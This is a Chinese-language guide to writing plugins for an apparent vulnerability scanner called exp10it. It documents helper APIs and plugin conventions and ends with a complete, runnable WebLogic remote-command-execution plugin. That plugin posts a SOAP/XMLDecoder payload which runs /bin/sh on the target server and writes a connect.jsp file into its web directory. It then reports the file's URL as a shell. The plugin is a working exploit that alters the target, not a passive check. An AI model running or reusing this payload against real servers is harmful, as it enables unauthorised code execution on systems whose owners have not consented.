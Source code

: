 ### 插件开发

开发的插件为具体的某一中高危漏洞扫描插件,如joomla远程执行漏洞插件,weblogic命令执行插件,wordpress sql注入插件

脚本中的target统一设置为sys.argv[1],sys.argv[1]的值为目标url

```
# 目标url可为以下3种:
# eg:
# 1.http://www.baidu.com:8080/cms/
# 2.http://www.baidu.com
# 3.http://www.baidu.com:8081/cms/index.php
```

#### 0x01 主要API如下

cms_url = get_cms_entry_from_start_url(target):
    简介:用于整理一个url的cms入口
    参数:target为目标url
    返回值:目标url的cms入口地址
    用法示例:
    get_cms_entry_from_start_url("http://www.baidu.com:8081/cms/index.php")的返回值为"http://www.baidu.com:8081/cms/"
    get_cms_entry_from_start_url("http://www.baidu.com:8081/cms")的返回值为"http://www.baidu.com:8081/cms/"
    get_cms_entry_from_start_url("http://www.baidu.com:8081")的返回值为"http://www.baidu.com:8081/"

get_target_urls_from_db(target,"exp10itdb"):
    简介:用于从数据库中取出已经完成的爬虫后的目标的所有url,用于漏洞检测
    参数:target为目标url,目前第2个参数固定为"exp10itdb"
    返回值:目标url列表,返回值是列表形式,列表中的第个值为url,但是有类特殊的url(url中包含"^"符号),这类特殊的url表示
           post类型的url,"^"之后的值为post的内容
    用法示例:
    get_target_urls_from_db("https://www.baidu.com/cms","exp10itdb")的返回值为:
    ['https://www.baidu.com/cms/admin.php',
    'https://www.baidu.com/cms/index.php?a=1&b=2',
    'https://www.baidu.com/cms/upload.php^filename=1.php&Submit=Submit',
    'https://www.baidu.com/cms/about.php',
    'https://www.baidu.com/cms/manage.php']

get_target_open_port_list(target):
    简介:从数据库中取出已经有的端口信息
    参数:target为目标url
    返回值:目标打开的端口信息,返回值为列表形式,如['80','8080','3306']
    用法示例:
    get_target_open_port_list("http://www.baidu.com:8081/cms/login.html")的返回值为["80","8080","3306","3389"]

COMMON_NOT_WEB_PORT_LIST= ['21', '22', '53', '137','139', '145', '445', '1433', '3306', '3389']
    这是一个常量,值的类型是列表,定义在在exp10it模块中

#### 0x01 插件目录结构

    插件放到一个新建的目录中,插件名与目录名相同
    eg:
    制作一个weblogic漏洞检测插件时,要新建一个weblogic目录,并在weblogic目录下新建weblogic.py,weblogic.py为要编写的
    插件,weblogic目录下如果检测到有漏洞需要生成一个result.txt,没有则不用生成,weblogic目录下可以有除weblogic.py外
    的用于检测漏洞的其他文件,也可没有其他文件,例如,检测到有漏洞后的weblogic目录下结构为(如果weblogic.py运行完后没
    有检测到漏洞则没有result.txt):

    weblogic/
    ├── result.txt
    └── weblogic.py

#### 0x02 插件建议

    1.目录命名时以下划线为连接符(如果目录名较长),目录名命名要能尽量反映出漏洞情况,如某个插件目录名为joomla_rce

    2.如果有多个网络请求,建议用多线程,eg:

    from concurrent import futures
    with futures.ThreadPoolExecutor(max_workers=15) as executor:
        executor.map(check, test_url_list)

    3.如果检测漏洞的过程中要用到临时文件,建议设置这个临时文件为"/tmp/xxx+"+str(time.time()),如:
        如果weblogic需要用到临时文件存放一些内容,建议临时文件设置为"/tmp/weblogic_1512724639.5173461",临时文件创
        建后记得删除(这里只是举个例子,下面的weblogic漏洞检测插件没有用到临时文件)

    4.插件建议只是建议,并不一定得这样,但是这样肯定是更好的,也有利于减少bug的产生和规范插件编写

#### 0x03 weblogic漏洞插件shili:

```
import requests
import sys
import re
import os
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from exp10it import COMMON_NOT_WEB_PORT_LIST
from exp10it import CLIOutput
from urllib.parse import urlparse
from exp10it import get_cms_entry_from_start_url
from exp10it import get_target_open_port_list

# 禁用安全请求警告
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
current_dir = os.path.split(os.path.realpath(__file__))[0]


# 判断漏洞是否存在
target = sys.argv[1]
# 传入的target是目标url,目标url有3种:
# eg:
# 1.http://www.baidu.com:8080/cms/
# 2.http://www.baidu.com
# 3.http://www.baidu.com:8081/cms/index.php

test_url_list = []
cms_url = get_cms_entry_from_start_url(target)
# get_cms_entry_from_start_url函数将获取target的cms入口,eg:
# target="http://www.baidu.com:8081/cms/index.php"时,函数返回值为"http://www.baidu.com:8081/cms/"
# target="http://www.baidu.com:8081/cms"时,函数返回值为"http://www.baidu.com:8081/cms/"
# target="http://www.baidu.com:8081"时,函数返回值为"http://www.baidu.com:8081/"

parsed = urlparse(target)
test_url_list.append(cms_url)

open_port_list = get_target_open_port_list(target)

for port in open_port_list:
    if port not in COMMON_NOT_WEB_PORT_LIST:
        test_url_list.append(parsed.scheme + "://" +
                             parsed.hostname + ":" + port)


def check(url):
    # 判断weblogic漏洞是否存在的地址
    check_addr = '/wls-wsat/CoordinatorPortType11'
    shell_addr = '/bea_wls_internal/connect.jsp'
    vuln_url = url + check_addr
    heads = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',
             'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
             'Accept-Language': 'zh-CN,zh;q=0.8',
             'SOAPAction': "",
             'Content-Type': 'text/xml;charset=UTF-8'
             }

    postStr = '''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <object class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>find $DOMAIN_HOME -type d -name bea_wls_internal|while read f;do find $f -type f -name
              index.html;done|while read ff;do echo vulexist>$(dirname $ff)/connect.jsp;done</string>
            </void> 
          </array>  
          <void method="start"/> 
        </object> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
'''

    content = requests.get(vuln_url, verify=False, timeout=10)
    if content.status_code == 200:
        rsp = requests.post(vuln_url, headers=heads, data=postStr.encode(
            "utf-8"), verify=False, timeout=10)
        content = rsp.content
        import chardet
        bytesEncoding = chardet.detect(content)['encoding']
        content = content.decode(bytesEncoding)

        if re.search(r"java\.lang\.ProcessBuilder", content, re.I):
            # print "getshell success,shell is:%s"%(url+shell_addr)
            string_to_write = "Congratulations! weblogic 远程命令执行漏洞存在:\n" + url + shell_addr + "\n"
            CLIOutput().good_print(string_to_write)
            with open("%s/result.txt" % current_dir, "a+") as f:
                f.write(string_to_write)
        else:
            print("失败")
    else:
        print(content.status_code)


from concurrent import futures
with futures.ThreadPoolExecutor(max_workers=15) as executor:
    executor.map(check, test_url_list)
```
